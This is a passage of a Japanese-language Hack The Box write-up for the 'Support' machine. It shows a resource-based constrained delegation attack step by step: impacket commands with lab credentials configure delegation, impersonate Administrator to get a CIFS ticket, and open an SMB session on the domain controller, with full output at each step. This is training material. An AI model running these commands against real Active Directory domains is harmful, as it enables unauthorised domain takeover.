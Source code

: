 リソースベースの制約付き委任 (RBCD) を設定
- 「`ATTACKERSYSTEM$` が `DC$` (ドメインコントローラー) に対して、任意のユーザーになりすますことを許可する」という設定を `DC$` 側に書き込む
	- `delegate-from 'ATTACKERSYSTEM$'` : 権限を「与える」側（攻撃者のコンピューター）
	- `delegate-to 'DC$'` :  権限を「与えられる」側（標的のドメインコントローラー）
- これにより、「ATTACKERSYSTEM$ は DC$ 上で誰にでも（例えば Administrator にも）なりすまして良いですよ」というお墨付きを DC$ から得たことになる
```bash
┌──(pkinitenv)─(kali㉿kali)-[~/…/HTB/machine/Support/PKINITtools]
└─$ impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' \
  -delegate-to 'DC$' \
  -action write \
  'support.htb0/support:Ironside47pleasure40Watchful'
/home/kali/Desktop/HTB/machine/Support/pkinitenv/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] ATTACKERSYSTEM$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     ATTACKERSYSTEM$   (S-1-5-21-1677581083-3380853377-188903654-6101)

```

「`ATTACKERSYSTEM$`」として、「Administrator」になりすましてドメインコントローラーのCIFSサービスへのアクセスチケット（ST）を取得する
- 前の手順で設定した権限を使い、`Administrator` としてドメインコントローラーのファイル共有サービス (`cifs/dc.support.htb`) にアクセスするためのサービスチケット (ST) を要求
```bash
┌──(pkinitenv)─(kali㉿kali)-[~/…/HTB/machine/Support/PKINITtools]
└─$ impacket-getST -spn cifs/dc.support.htb \
  -impersonate Administrator \
  -dc-ip 10.129.230.181 \
  'support.htb/ATTACKERSYSTEM$:Summer2018!'
/home/kali/Desktop/HTB/machine/Support/pkinitenv/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```

前のコマンドで取得したサービスチケットを使い、Administrator権限でドメインコントローラーにSMB接続（ファイル共有）を確立して、root.txtを取得
```bash
┌──(pkinitenv)─(kali㉿kali)-[~/…/HTB/machine/Support/PKINITtools]
└─$ impacket-smbclient -k -no-pass support.htb/Administrator@dc.support.htb
/home/kali/Desktop/HTB/machine/Support/pkinitenv/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# ls
[-] No share selected
# shares
```